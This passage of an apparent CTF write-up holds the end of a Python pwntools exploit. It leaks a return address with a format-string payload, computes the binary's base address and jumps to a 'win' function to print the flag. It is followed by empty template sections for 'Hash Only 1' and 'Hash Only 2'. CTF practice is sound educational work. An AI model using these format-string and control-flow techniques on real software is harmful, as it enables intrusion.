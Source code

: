 ```python
    # leak the return address
    r.sendlineafter(b'Enter your name:', b'%19$p|')
    leak = int(r.recvuntil(b'|',drop=True).decode("ascii"), 16)

    # calculate the base address
    elf.address = leak - (elf.sym["main"] + 65)

    payload = hex(elf.sym["win"])

    r.sendlineafter(b' enter the address to jump to, ex => 0x12345: ', payload)

    r.recvuntil(b'You won!\n')

    flag = r.recvuntil(b'\n', drop=True).decode("ascii")

    print()
    print(flag)
    print()


if __name__ == "__main__":
    main()
```
<br>
<br>

## **Hash Only 1**
---
### Overview
- **Category**: 
- **Difficulty**: 
- **Challenge Files**: 
- **Source Code**: 

### Exploitation Steps
### Solution
```python
```
<br>
<br>

## **Hash Only 2**
---
### Overview
- **Category**: 
- **Difficulty**: 
- **Challenge Files**: 
- **Source Code**: 
